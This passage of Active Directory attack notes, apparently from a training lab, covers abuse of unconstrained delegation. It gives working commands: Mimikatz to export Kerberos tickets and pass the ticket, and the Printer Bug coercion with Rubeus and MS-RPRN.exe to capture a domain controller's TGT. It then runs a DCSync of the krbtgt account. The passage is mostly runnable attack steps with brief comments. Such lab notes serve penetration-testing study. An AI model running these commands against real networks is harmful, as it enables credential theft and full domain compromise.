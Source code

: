 ```powershell
# After getting privileges we have to wait for a high privilege user to logon on the computer.
# Since there is delegation, the computer can decrypt the TGS that contains the TGT of the user connected.
# So TGT of the elevated user is available and can be used to impersonate 

# Need to wait for a login from administrator (or other user)

# Exporting all tickets on the trusted computer
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Using administrator ticket (if administrator connected to the trusted server:
Invoke-Mimikatz -Command '"kerberos::ptt c:\users\appadmin\[0;2ce8b3]-02-60a1000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
# "[0;2ce8b3]-02-60a1000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi" is the file containing the TGT of Administrator exported before

# The problem now is: there a way to trigger some users or computer to logon, without waiting an admin interaction?
# There is if some pre-requisites are mateched.
```

### Unconstrained Delegation and Printer Bug

```powershell
# MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server.
# It's possible to ask to a computer to contact the spooler on a third server.
# The DC will authenticate with its own computer account on the  third server.
# What if the third server is an owned computer trusted for delegation?
# it should be possible to capture the DC TGT 

# On the server with unconstrained delegation enabled (dcorp-appsrv), run rubeus in monitor mode to listen for incoming tickets 
.\Rubeus.exe monitor /interval:5 /nowrap

# from a domain joined machine (student VM) ask to a DC to notify MS-RPRN to the server:
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

# some tickets will be printed by the rubeus session monitor mode in base64 format.
# Copy the TGT ticket, remove blanks and new line chars
# paste the TGT in a Rubeus command:
.\Rubeus.exe ptt /ticket:XXXXa.....==

#  Now the current session has the same rights as the DC
# It's possibile to run a DCSYnc attack:
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dollarcorp\krbtgt"'

# IT's also possible to do that on LInux with the tool C0ercer
```

### Constrained Delegation

